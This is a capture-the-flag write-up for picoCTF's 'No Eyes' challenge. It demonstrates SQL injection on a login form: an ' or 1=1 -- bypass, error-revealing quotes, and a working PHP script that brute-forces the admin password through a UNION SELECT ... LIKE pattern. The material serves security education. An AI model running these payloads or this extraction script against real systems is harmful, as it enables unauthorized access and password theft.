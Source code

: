 # No Eyes - 125 Points

The [website](http://shell2017.picoctf.com:40788/) isn't really me much, but you can still get the admin password, right?

**Hint:** Sometimes an error message can be just as useful.

## Writeup

Like the previous problem, we want to find the admin user's password. So, we can start by trying to login in as admin using the username "admin" and a password of `' or 1=1 --`. This logs us in, but all it does is display an error message: `Login Functionality Not Complete. Flag is 63 characters`. This doesn't tell us much, but at least know we know the length of the flag. Let's keep searching for more information. We can get try to get the website to give us more error messages by breaking their SQL query. Submitting a username of `'` sucessfully does just that and gives us the broken query in an error message: `select * from users where user = ''';`. Now we know there is a `users` table which contains the column `user` for usernames. If we try the same thing with the password field (using "admin" as username and the single quote as password), we get another query: `select * from users where pass = ''';`. So the website first searches the `users` table for a username (user column) then tries to find a matching entry for a password (pass column) and we know that there is an entry for admin with a password that is 63 characters long. What next? Brute force of course!

SQL has a `LIKE` operator that checks if a column matches a certain pattern. The pattern we're going to use looks like `a%`, meaning find any values that start with "a". To brute force the password, I wrote a script in PHP that queries the website with a password like `' union select * from users where pass like 'a%' --` that tries different characters until it successfully logs in then goes on to try the next character in the password until it gets to a length of 63. To check if the login is successful, I utilize a [PHP to HTML parser](https://github.com/paquettg/php-html-parser) that checks the error message in the HTML page it receives. However, there are other ways to check this if you don't want to download a whole framework. Furthermore, if you are unfamiliar with PHP other languages such as Python can be used instead.

```PHP
<?php

	require "vendor/autoload.php";
	use PHPHtmlParser\Dom;

	$i = 0;
	$stuff = "";
	$failText = "Incorrect Password.";
	$chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_abcdefghijklmnopqrstuvwxyz{}?!.@#$%^&*()~-+=,;\"'";
	$ans = "";


	while ($i++ < strlen($chars) && strlen($ans) < 63)
	{

		$char = substr($chars, $i-1, 1);

		$c = curl_init();

		curl_setopt($c, CURLOPT_URL, "http://shell2017.picoctf.com:40788/");
		curl_setopt($c, CURLOPT_POST, 1);
		curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
		curl_setopt($c, CURLOPT_POSTFIELDS, "username=admin&password=asd' union select * from users where pass like '" . $ans . $char . "%");

		$stuff = curl_exec($c);

		$dom = new Dom;
		$dom->load($stuff);
		$alert = $dom->find(".container .row .alert strong")[0]->text;

		if ($alert != $failText)
		{
			echo $char;
			$ans .= $char;
			$i = 0;

		}

		curl_close($c);
	}

	echo "<br />" . $ans;

?>
```

## Helpful Resources

[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)

